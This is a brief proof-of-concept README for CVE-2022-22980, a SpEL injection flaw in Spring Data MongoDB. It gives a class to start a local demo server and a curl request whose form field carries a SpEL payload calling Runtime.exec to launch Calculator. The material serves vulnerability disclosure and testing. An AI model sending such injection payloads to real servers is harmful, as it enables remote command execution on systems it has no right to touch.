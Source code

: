 ## CVE-2022-22980: Spring Data MongoDB SpEL Expression injection vulnerability through annotated repository query methods

### 1. Run Java Server（not need MongoDB Server）
```
com.threedr3am.bug.spring.data.mongodb.Application.main
```

### 2. payload
```
curl --location --request POST 'http://127.0.0.1:8080/demo' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'keyword=T(java.lang.String).forName('\''java.lang.Runtime'\'').getRuntime().exec('\''/System/Applications/Calculator.app/Contents/MacOS/Calculator'\'')'
```


